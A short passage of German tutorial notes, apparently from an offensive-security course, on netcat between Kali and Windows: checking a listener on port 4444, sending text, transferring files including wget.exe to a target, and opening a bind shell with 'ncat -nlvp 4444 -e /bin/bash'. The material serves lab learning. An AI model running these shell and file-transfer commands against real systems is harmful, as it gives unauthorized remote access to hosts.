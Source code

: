 Anschauen (in weiterem Terminal) ob Server gebunden ist

```bash
$ netstat -tlpn | grep 4444
```

Windows

```
c:\nc>nc <Ziel IP> 4444

```

Auf der Server Seite tut sich nun etwas (Log Ausgaben)

Auf der Client Seite kann ein beliebiger Text eingegeben werden nach Return erscheint dieser am Server.

Das geht auch umgekehrt, d.h. Eingabe+Return am Server

Es können beliebige Daten übertragen und in Dateien gespeichert werden.



```
c:\nc>nc -nlvp 4444 > data.txt

```

Windows Firewall bemerkt das allerdings!

Kali:

```bash
$ ncat <Ziel IP> 4444
# ein paar Zeilen eingeben
# mit Ctrl-C beenden
```

Unter Windows stehen die eingegebenen Daten nun in `data.txt`

```
c:\nc>nc -nlvp 4444 > wget.exe
```



```bash
$ ncat <Ziel IP> 4444 < /usr/share/windows-binaries/wget.exe
```



### Bind shell

mit der `-e` Option kann ein beliebiges Programm mit dem netcat Server verbunden werden, z.B. eine shell.

```bash
$ ncat -nlvp 4444 -e /bin/bash
```

```
c:\nc>nc <Ziel IP> 4444
```
